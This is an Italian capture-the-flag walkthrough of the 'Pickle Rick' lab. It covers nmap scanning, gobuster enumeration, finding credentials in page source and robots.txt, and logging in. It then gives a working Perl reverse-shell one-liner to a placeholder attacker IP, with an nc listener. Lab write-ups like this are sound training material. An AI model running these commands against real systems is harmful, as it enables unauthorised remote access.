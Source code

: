 #  Pickle Rick

_________________

#  Task 1 - Pickle Rick

- sudo nmap -p- --open -sC -sV -sS -A -T 5 -Pn -oN scan_pickle.txt TARGET-IP

![Istantanea_2023-08-05_17-20-30](https://github.com/Manganaccio/Manganaccio/assets/137283468/b0671aa8-bd4a-4af2-9a30-91cf0f6c35ad)

- essendo aperta la porta 80 si può visitare la pagina web, una volta visitata esaminare il codice sorgente della stessa, viene fornita un username, manca a questo punto una password ed una pagina di login

![Istantanea_2023-08-05_17-19-18](https://github.com/Manganaccio/Manganaccio/assets/137283468/259037d1-74af-4e30-a989-0410973aed80)

- usare gobuster per trovare le directories nascoste e aggiungendo il comando _-x php_ in modo da trovare eventuali pagine di login: gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/common.txt  -x php

![Istantanea_2023-08-06_09-07-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8486d2e6-e4e6-4424-82a2-10af685be615)

- visitando la pagina robots.txt si può ottenere una parola che presumibilmente sarà la password dell'username trovato in precedenza

 ![Istantanea_2023-08-05_17-21-44](https://github.com/Manganaccio/Manganaccio/assets/137283468/c2bbae57-8946-44ad-93c0-74a3f1ac815f)

- visitando la pgina login.php si potrà effettuare l'accesso con le credenziali trovate. Si verrà poi indirizzati ad una nuova pagina web dove si potrà eseguire il comando per ottenere la reverse shell:
  perl -e 'use Socket;$i="YOUR-IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
- in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel comando "perl")

![Istantanea_2023-08-06_09-36-42](https://github.com/Manganaccio/Manganaccio/assets/137283468/74752716-7fb8-40b7-ad59-877b42e927dd)

